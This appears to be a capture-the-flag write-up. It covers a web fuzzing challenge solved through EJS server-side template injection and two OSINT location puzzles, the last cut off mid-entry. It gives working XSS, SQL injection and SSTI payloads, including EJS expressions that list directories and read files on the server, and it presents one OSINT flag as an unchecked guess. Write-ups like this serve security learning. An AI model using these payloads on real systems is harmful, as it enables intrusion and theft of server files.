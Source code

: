 web fuzzing is testing various inputs for a web app and hoping to induce unwanted behaviour, basically just poke it until it screams

in this website, we are provided a text input. upon submitting the input, the app reflects the input.

my first instinct was using the payload `javascript <script>alert(1337)</script>`, which successfully reflected an alert popup. this suggests XSS but nothing much can be done with that alone

using the payload `sql ' OR 1=1;--` or similar simply reflects the input as is with no errors thrown, suggesting no sqli vulnerability

next i attempted ssti using the jinja2 payload `jinja2{{7*7}}` but the input was again, simply reflected

i then did some googling and found the payload 

```
{{<%[%'"}}%\.
``` 

on https://www.imperva.com/learn/application-security/server-side-template-injection-ssti/, which managed to throw an error, 'Error: Could not find matching close tag for "<%".'

bingo. according to chatgpt this error comes from EJS (embedded javascript)

the payload `<%= require('fs').readdirSync('.') %>` yields an error
'ReferenceError: ejs:1 >> 1 Fuzzed <%= require('fs').readdirSync('.') %> require is not defined'

it looks like `require` is off limits... directly...

this can be circumvented by a payload like `<%= global.process.mainModule.require('fs').readdirSync('.') %>`, which lists all the contents of the source directory: 'Fuzzed Dockerfile,app.js,flag.txt,node_modules,package-lock.json,package.json'

we want to read flag.txt, this can be done using the payload `<%= this.constructor.constructor("return process.mainModule.require('fs').readFileSync('flag.txt', 'utf8')")() %>`

with that, we obtain the flag, `SENTI{n0t_s0_r4nd0m_1npu7}`

## > Convo (OSINT, 350)
our objective is to uncover the location that the user is staying at

our clues:
- good view from the roof
- captivating city lights
- uniquely shaped roof
- expensive to stay at
- a two hour drive from Muar
- near somewhere with over 100 haute coutre pieces (i have no idea what this refers to)

using common sense, we can deduce that said location is singapore's marina bay sands

flag: `SENTI{Marina_Bay_Sands} (probably, can't double check)`

## > Fisch (OSINT, 150)
we are given a roblox screenshot of an npc.
